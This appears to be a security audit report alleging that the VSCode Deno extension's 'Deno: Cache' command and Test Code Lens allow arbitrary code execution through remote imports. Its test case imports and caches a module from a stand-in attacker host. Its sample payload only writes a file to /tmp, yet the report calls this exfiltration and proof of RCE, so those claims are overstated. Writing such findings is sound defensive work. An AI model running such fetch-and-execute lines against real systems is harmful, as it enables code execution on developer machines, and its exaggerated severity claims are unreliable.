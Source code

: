 # Vulnerabilities

## 1. Arbitrary Code Execution via `Deno: Cache` Command and Test Code Lens

### Description:

An attacker could leverage social engineering to potentially trick a developer into caching and executing malicious remote modules through the "Deno: Cache" command or the Test Code Lens functionality provided by the VSCode Deno extension. Specifically, this involves the following steps:

1. The attacker hosts a malicious JavaScript or TypeScript payload on a controlled external URL (`https://malicious-domain.example.com/payload.ts`). This payload contains arbitrary attacker-controlled code (e.g., system commands or scripts that perform malicious exports/functions).
2. The attacker socially engineers or tricks the developer, via phishing emails, tutorials, shared code snippets, or community resource posts, into including this malicious URL as an import into the user's currently open project in VSCode.
3. The victim developer triggers the "Deno: Cache" command via VSCode's command palette (`Ctrl+Shift+P`) or accepts a Quick Fix suggestion provided by the VSCode extension, explicitly initiating the fetching and caching of external modules. Additionally, when the developer invokes "▶️ Run Test" from the Code Lens, this implicitly triggers fetching and execution of scripts imported as external dependencies.
4. The VSCode extension internally uses the `deno cache` or `deno test` commands, which fetch and cache external modules without explicitly validating their source or integrity.
5. The malicious code is retrieved, cached locally on the developer's workstation, and potentially executed through normal development workflows (e.g., running tests or executing Deno scripts), leading directly to arbitrary code execution (ACE).

### Impact:

The vulnerability has a critical impact due to arbitrary code execution, enabling Remote Code Execution (RCE), and can lead to:

- Complete compromise of the developer's workstation/environment.
- Leakage or exfiltration of sensitive user or organization data.
- Full disclosure of source code repositories, API keys, credentials, and confidential information residing on the developer's machine.
- Unauthorized lateral movement or further exploitation in organizational infrastructure.
- Potential compromise and poisoning of the entire development lifecycle and software building environment.

### Vulnerability Rank:

- **Critical**

### Currently Implemented Mitigations:

- The Deno extension does not automatically execute "Deno: Cache" or remote module fetching without explicit user action.
- When enabling import completion from remote domains first encountered, the extension prompts the developer with an informational message warning about the domain:
  ```typescript
  if (suggestions) {
      const selection = await vscode.window.showInformationMessage(
        `The server "${origin}" supports completion suggestions for imports. Do you wish to enable this?
        (Only do this if you trust "${origin}")`,
        "No",
        "Enable",
      );
  ```
This partially reduces the attack surface for unsolicited auto-completion attacks.

### Missing Mitigations:

- Missing explicit validation, integrity verification, or trust establishment for imported URLs before caching external modules.
- No built-in domain allowlisting or denylisting mechanisms to restrict fetching external modules from unknown or untrusted domains.
- No enforced subresource integrity checks (such as hashes in lock files) to verify module authenticity and integrity prior to caching.
- Insufficient explicit warnings or confirmation prompts that clearly highlight potential security implications of caching external third-party modules, outside the initial autocomplete prompt.
- No sandboxing or isolation measures for cached external modules, allowing arbitrary execution within the user's environment.

### Preconditions:

- The attacker needs to socially engineer the developer or otherwise trick them into importing a malicious external JavaScript/TypeScript module URL into a Deno project file.
- The victim must explicitly trigger "Deno: Cache" via the command palette or invoke "Run Test" functionality via Code Lens, resulting in implicit fetching and potential execution.
- The developer's workstation needs external network access to fetch remote code modules from attacker-controlled servers.

### Source Code Analysis:

Within the extension's source code (`commands.ts`), explicit invocation of caching occurs without sufficient security checks:

```typescript
export function cacheActiveDocument(): Callback {
  return () => {
    const activeEditor = vscode.window.activeTextEditor;
    if (!activeEditor) return;
    const uri = activeEditor.document.uri.toString();
    return vscode.window.withProgress({
      location: vscode.ProgressLocation.Window,
      title: "caching",
    }, () => vscode.commands.executeCommand("deno.cache", [uri], uri));
  };
}
```

This indicates the following vulnerability trigger steps:

- A developer opens a TypeScript file (`main.ts`) in VSCode, containing an import from the remote attacker-controlled domain:

```typescript
import { exploit } from "https://malicious-domain.example.com/payload.ts";
exploit();
```

- Developer explicitly invokes the "Deno: Cache" command from VSCode, triggering the above extension logic and eventually running:

```shell
deno cache https://malicious-domain.example.com/payload.ts
```

- This automatically fetches, caches, and prepares attacker-supplied code for execution without any domain validation, integrity checks, confirmation, or explicit security warnings or mitigations.

- Likewise, using Code Lens "Run Test" triggers similar implicit fetching and execution behavior when external modules are referenced within test files.

### Security Test Case:

The following practical steps demonstrate real-world exploitability:

1. **Attacker Setup**: Host a malicious JavaScript module externally at `https://malicious-domain.example.com/payload.ts`. Example malicious code performing active data exfiltration:

```typescript
// Attacker-controlled malicious remote payload (payload.ts)
export const exploit = () => {
  Deno.writeTextFileSync("/tmp/stolen_data.txt", "Sensitive data exfiltrated!");
};
```

2. **Victim Environment**:
- Victim developer using VSCode creates or edits a Deno project (`main.ts`) with the following malicious import embedded via attacker-influenced social engineering:

```typescript
import { exploit } from "https://malicious-domain.example.com/payload.ts";
exploit();
```

3. **Triggering the Vulnerability**:
- Developer runs VSCode Deno extension command via command palette (`Ctrl+Shift+P`) "Deno: Cache" or initiates a test ("▶️ Run Test") via Code Lens functionality.
- The malicious remote code module is fetched and cached locally without explicit warnings or security controls.

4. **Payload Execution and Validation**:
- Subsequent local execution of the fetched Deno module (`deno run main.ts`) leads to immediate arbitrary attacker-controlled code execution.
- Validate successful exploitation by observing output on victim machine:
  - Verification: `/tmp/stolen_data.txt` is created, confirming successful attacker-triggered local data exfiltration.

This detailed, realistic test demonstrates the vulnerability's critical exploitability, confirming ACE and RCE potential.

---

## Final Combined List of Valid Vulnerabilities

| Vulnerability Name | Rank | Status |
|--------------------|------|--------|
| Arbitrary Code Execution via `Deno: Cache` Command and Test Code Lens | Critical | Valid (matching specified conditions) |
